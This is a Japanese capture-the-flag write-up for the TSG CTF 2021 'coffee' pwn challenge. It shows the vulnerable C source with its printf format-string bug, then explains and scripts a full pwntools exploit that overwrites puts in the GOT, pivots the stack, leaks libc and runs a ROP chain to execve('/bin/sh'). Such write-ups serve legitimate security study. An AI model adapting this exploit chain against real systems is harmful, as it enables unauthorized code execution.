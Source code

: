 ```yaml
---
layout: chall
ctf_name: TSG CTF 2021
problem_name: coffee
genre: pwn
solved_date: 2021-12-18
during_ctf: false
tag: [fsb, rop, fav]
---
```


## 概要

FSB があるが、一度しかできない(+文字数制限 160 文字)

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

<details><summary>コード</summary>

```c
#include <stdio.h>

int x = 0xc0ffee;
int main(void) {
    char buf[160];
    scanf("%159s", buf);
    if (x == 0xc0ffee) {
        printf(buf);
        x = 0;
    }
    puts("bye");
}
```

</details>


## 解法

FSB で AAW ができるので、puts に RSP をズラすガジェットを置く。`add rsp, 0x08` 等が使えそうに見えるが、FSB をするためには先頭にFSB 用の文字列を置かなければいけない（FSB ペイロードの前にnull バイトが入ってはいけないので）。
RSP を `0x38` ズラすガジェットがあるので、ズラしきれるだけの FSB のペイロードを作り、その後に ROP のペイロードを置く。

```
0x00401286: add rsp, 0x08 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret  ;  (1 found)
```

書き込める量が限られているので、一旦別のセクションに scanf で書き込んでからそこに pivot する ROP を書く。scanf のアドレスには空白文字があるため直接呼べないが、main の scanf を呼び出している場所に飛ばせば任意アドレスに書き込みができる。

その後は execve する ROP を書き込んで終わり。

<details><summary>スクリプト</summary>

```py
from pwn import *

BIN_NAME = 'coffee'
REMOTE_ADDR = 'hogenet'
REMOTE_LIBC_PATH = 'libc-2.31.so'
REMOTE_PORT = 3141592
LOCAL = True

chall = ELF(BIN_NAME)
context.binary = chall

ROP_RET = 0x0040101a

ROP_POP_RSP_POP_R13_POP_R14_POP_R15_RET = 0x0040128d
ROP_ADD_RSP_0X38_RET = 0x00401286
ROP_ADD_RSP_8_RET = 0x00401016

ROP_POP_RDI_RET = 0x00401293
ROP_POP_RSI_POP_R15_RET = 0x00401291

ROP_MOV_RDI_p159s_CALL_PRINTF = 0x004011be

if LOCAL: stream = process(BIN_NAME)
else: stream = remote(REMOTE_ADDR, REMOTE_PORT)

spaces = [b'\x20', b'\x09', b'\x0a', b'\x0b', b'\x0c', b'\x0d']

def write_rop_with_stager(rop):
    if len(rop) == -1: return
    payload  = b'%29$p'
    payload += fmtstr_payload(
        6 + len(payload) // 8,
        { chall.got["puts"]: ROP_ADD_RSP_0X38_RET },
        write_size="short",
        numbwritten=14,
        offset_bytes=len(payload) % 8
    )
    print(f'{hex(len(payload))=}')
    assert(len(payload) <= 0x30)
    payload += b'A' * (0x30 - len(payload))
    payload += b''.join([p64(x) for x in rop])
    assert(all(c not in payload for c in spaces))
    assert(len(payload) < 160)
    stream.sendline(payload)

def write_rop(rop):
    if len(rop) == -1: return
    payload  = b''
    payload += b''.join([p64(x) for x in rop])
    assert(all(c not in payload for c in spaces))
    assert(len(payload) < 160)
    stream.sendline(payload)

PIVOT_POS = 0x404100
write_rop_with_stager([
    # write rop
    ROP_POP_RSI_POP_R15_RET,
    PIVOT_POS,
    0, 
    ROP_MOV_RDI_p159s_CALL_PRINTF,
    0, 0, 0, 0, 0, 0, # for puts call
    # stack pivot
    ROP_POP_RSP_POP_R13_POP_R14_POP_R15_RET,
    PIVOT_POS
])

addr_start_main_hex = stream.recv(14)
print(f'{addr_start_main_hex=}')
addr_start_main = int(addr_start_main_hex[2:], 16)

libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so' if LOCAL else REMOTE_LIBC_PATH)
libc.address = addr_start_main - 159923

print(f'{hex(libc.address)=}')

rop = ROP(libc)
rop.execve(next(libc.search(b'/bin/sh')), 0)
payload = rop.chain()

write_rop([
    0, 0, 0, 
] + unpack_many(payload))

stream.recvuntil("b", timeout=1)
stream.interactive()
```

</details>

